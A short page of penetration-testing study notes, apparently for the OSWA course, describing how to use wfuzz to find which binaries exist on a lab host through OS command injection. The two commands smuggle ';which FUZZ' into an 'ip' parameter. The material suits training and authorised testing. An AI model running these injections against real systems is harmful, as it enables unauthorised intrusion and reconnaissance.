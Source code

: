 ```yaml
---
title: Check Capabilities
layout: default
parent: OS Command Injection
has_children: false
nav_order: 3
---
```


This can help to check whether a certain binary exists in the system

1. Use wfuzz:
`wfuzz -c -z file,/home/kali/oswa/commandinjection/capability_checks_custom.txt --hc 404 "http://ci-sandbox:80/php/index.php?ip=127.0.0.1;which FUZZ"`

2. Hide the response length of failed ones using `--hh`:
`wfuzz -c -z file,/home/kali/oswa/commandinjection/capability_checks_custom.txt --hc 404 --hh 494,499 "http://ci-sandbox:80/php/index.php?ip=127.0.0.1;which FUZZ"`